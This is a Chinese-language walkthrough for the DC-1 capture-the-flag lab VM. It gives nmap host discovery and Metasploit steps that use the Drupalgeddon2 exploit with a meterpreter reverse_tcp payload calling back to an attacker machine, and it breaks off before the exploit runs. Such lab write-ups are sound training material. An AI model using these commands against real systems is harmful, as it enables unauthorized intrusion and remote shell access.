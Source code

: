 # 🧪 DC-1 靶机提权+5个flag

------

## 🔍 一、获取目标 IP

使用以下命令扫描局域网 IP：

```bash
sudo nmap -sP 192.168.?.0/24
```

![image-20250728165751044](file:///C:/%5CUsers%5CAdministrator%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20250728165751044.png)

------

## 🛠️ 二、Metasploit 利用 Drupalgeddon2 漏洞

### ✅ 第 1 步：启动 Metasploit 控制台

```bash
msfconsole
```

### ✅ 第 2 步：搜索并使用漏洞模块

```msf
search drupalgeddon2
use exploit/unix/webapp/drupal_drupalgeddon2
```

### ✅ 第 3 步：配置目标信息

```msf
set RHOSTS 192.168.126.139
set TARGETURI /
```

### ✅ 第 4 步：设置 Payload

```msf
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.126.128  # 你的 Kali IP 地址
set LPORT 4444
```

使用以下命令获取 Kali IP：

```bash
ip a
```

### ✅ 第 5 步：运行攻击模块
